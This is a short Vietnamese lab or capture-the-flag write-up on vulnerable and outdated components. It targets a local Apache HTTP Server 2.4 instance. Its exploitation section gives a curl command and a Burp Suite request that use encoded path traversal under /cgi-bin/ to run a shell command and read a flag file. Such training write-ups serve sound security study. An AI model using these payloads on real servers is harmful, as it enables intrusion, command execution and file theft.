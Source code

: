 
# 🧨 Vulnerable and Outdated Components

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:6006/
```

---

## Phân tích

- Sử dụng Apache HTTP Server 2.4
- Có thể khai thác thông qua **Path Traversal** và **Remote Code Execution (RCE)**

---

## Khai thác

```bash
curl --data "echo;cat /flag.txt" 'http://localhost:6006/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'
```

Hoặc dùng Burp Suite:

```
GET /cgi-bin/.%2e/%2e%2e/.../flag.txt HTTP/1.1
```
